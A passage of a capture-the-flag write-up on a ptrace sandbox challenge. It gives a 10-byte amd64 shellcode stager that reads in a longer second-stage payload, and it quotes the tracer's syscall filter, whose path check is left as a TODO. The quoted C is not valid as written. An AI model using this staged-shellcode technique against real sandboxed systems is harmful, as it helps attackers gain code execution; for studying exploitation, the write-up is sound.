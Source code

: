 So the first think to notice is that mmap never allocates less then PAGE_SIZE. So there has been allocated at least 4096 bytes of executable memory.

Secondly, when sandboxed process jumps to our shellcode the `$rsi` is already set to code + 10. This means that we can make our shellcode just call `read` again to load some longer shellcode!

So the 10 bytes of shellcode look like this:

```python3
shellcode = asm('''
push 1000
pop rdx
xor eax, eax
syscall
''', arch='amd64')
```

and are only supposed to load the rest of shellcode which can be up to 1000 bytes long:)

## Filter
So can we now just open and read the flag? Unfortunately no. Every time the sandboxed process invokes syscall, the tracer checks the register state of the tracee and decides whether or not the syscall should be allowed:

```c
void check_syscall(pid_t child_pid, struct user_regs_struct *regs)
{
    char pathname_part0[8];
    char pathname_part1[8];

    if (regs.orig_rax == __NR_lseek || regs.orig_rax == __NR_read ||
        regs.orig_rax == __NR_write || regs.orig_rax == __NR_close ||
        regs.orig_rax == __NR_fstat || regs.orig_rax == __NR_exit ||
        regs.orig_rax == __NR_exit_group || regs.orig_rax == __NR_getpid)
        return 0;

    if (regs.orig_rax == __NR_alarm)
    {
        /* Allow only short alarms. */
        return regs.rdi > 20;
    }

    if (regs.orig_rax == __NR_munmap ||
        regs.orig_rax == __NR_mprotect ||
        regs.orig_rax == __NR_mmap)
    {
        return regs.rsi <= 0x1000;
    }

    if (regs.orig_rax == __NR_open)
    {
        /* Flags must be O_RDONLY. */
        if (regs.rsi != 0)
            return 1;

        pathname_part0 = ptrace(PTRACE_PEEKDATA, child_pid, regs.rdi, 0);
        pathname_part1 = ptrace(PTRACE_PEEKDATA, child_pid, regs.rdi + 8, 0);
        // TODO some extra checks. For example whether the path contains a "flag" string in it.
    }

    return 1;
}
```
